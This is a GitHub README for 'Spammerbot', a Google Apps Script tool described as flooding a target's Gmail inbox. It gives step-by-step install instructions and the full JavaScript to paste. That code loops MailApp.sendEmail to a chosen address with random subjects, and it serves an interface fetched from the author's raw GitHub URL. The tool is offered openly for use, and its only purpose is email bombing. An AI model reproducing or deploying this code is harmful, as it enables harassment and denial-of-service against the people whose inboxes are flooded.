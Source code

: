 <br>

<h3 align="center">⚠️ WARNING: PLEASE SEE <a href="https://github.com/WillDev12/Spammerbot/blob/main/TERMSOFUSE">USAGE POLICIES</a> BEFORE USING THIS PROGRAM ⚠️</h3>

<br><br>

<p align="center"><img src="https://cdn-icons-png.flaticon.com/512/4403/4403384.png" width="250" height="250"></p>

<h1 align="center">Spammerbot</h1>

<p align="center">
<img src="https://img.shields.io/github/followers/WillDev12?label=follow%20my%20github&logo=github&style=for-the-badge">
<img src="https://img.shields.io/github/stars/WillDev12/Spammerbot?style=for-the-badge">
<img src="https://img.shields.io/github/forks/WillDev12/Spammerbot?style=for-the-badge">
<img src="https://img.shields.io/github/watchers/WillDev12/Spammerbot?style=for-the-badge">
</p>

<br>
<br>

## What it does
Sends a desired amount of emails[^1] to another inbox in a quick manner resulting in an inbox flood.

<br>

## How to install?

1. Open new Google Apps Script
2. Delete `myFunction` and paste the following:
```javascript
function doGet(e) { var service = HtmlService.createHtmlOutput(UrlFetchApp.fetch("https://raw.githubusercontent.com/WillDev12/Spammerbot/main/src/index.html")).setTitle("Spammerbot | The gmail spammer"); return(service); } function sendSpam(email, number, message) { var i = 0; var num; while (i <= number) { num = Math.floor((Math.random()*1000000000000)+1); MailApp.sendEmail(email, num, message); i++; } }
```
3. Deploy as web app and open the url!

<br><br>

# Like content like this?

Check out my [profile](https://github.com/WillDev12) or share it! (It means a lot to me)<br>
```
https://github.com/WillDev12
```

[^1]: Sadly due to the fact that logging into an external account cannot be performed in Google Apps Script, every email sent will be delivered from your own personal account.
